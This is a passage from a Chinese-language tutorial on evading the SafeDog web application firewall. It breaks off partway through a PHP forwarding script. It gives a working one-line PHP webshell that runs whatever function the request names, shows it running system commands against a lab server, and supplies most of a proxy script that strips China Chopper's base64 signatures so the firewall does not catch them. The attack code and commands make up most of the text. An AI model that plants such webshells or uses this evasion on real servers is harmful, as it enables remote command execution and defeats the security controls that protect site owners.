 ![](../images/bypasssafedog/14042120215229.png)

![](../images/bypasssafedog/14042111425829.png)

![](../images/bypasssafedog/1404211143682.png)

这样的上传数据可能是不符合RFC规范的，但是却达到了绕过拦截的目的。结论是每种安全检查一定要在对应的层次做检查，而不能想当然的在WEB层做系统层该做的事情。

## 五、一句话webshell绕过 ##
对于攻击者来说，安全狗很烦人的一点就是传上去的webshell却不能执行。我们就来看看怎么绕过安全狗对一句话webshell的拦截。

首先要知道安全狗防webshell仍然是依靠文件特征+HTTP来判断，但webshell真正执行是在脚本层，检查的层次不对当然也是可以轻易绕过去的。因为php里面函数名都可以是变量，文件里哪还有特征啊，上传如下php：

    <?php
    $_REQUEST['a']($_REQUEST['b']);
    ?>
然后在浏览器里执行：

> http://192.168.200.115/small.php?a=system&b=dir

![](../images/bypasssafedog/14042112336881.png)

成功执行了系统命令，当然也可以执行php代码：

> http://192.168.200.115/small.php?a=assert&b=phpinfo();

![](../images/bypasssafedog/14042112566076.png)

## 六、菜刀绕过 ##
测试发现这种一句话虽然可以成功执行，但是在菜刀里却不能用，而有些人非觉得这样的一句话麻烦，非要用菜刀。经分析安全狗对菜刀的HTTP请求做了拦截，菜刀的POST数据里面对eval数据做了base64编码，安全狗也就依靠对这些特征来拦截，因此要想正常使用菜刀，必须在本地做一个转发，先把有特征的数据转换。这个思路类似于对伪静态注入的本地转发。

首先在本地搭建WEB SERVER，然后写一个php转发程序：

    <?php
    $target="http://192.168.200.115/small.php";//这个就是前面那个一句话的地址
    $poststr='';
    $i=0;
    foreach($_POST as $k=>$v)
    {
      if(strstr($v, "base64_decode"))
      {
    $v=str_replace("base64_decode(","",$v);
    $v=str_replace("))",")",$v);
      }
      else
      {
    if($k==="z0")
      $v=base64_decode($v);
      }
      $pp=$k."=".urlencode($v);
      //echo($pp);
      if($i!=0)
      {
    $poststr=$poststr."&".$pp;
      }
      else
      {  
    $poststr=$pp;
      }
      $i=$i+1;
    }
    $ch = curl_init();
    $curl_url = $target."?".$_SERVER['QUERY_STRING'];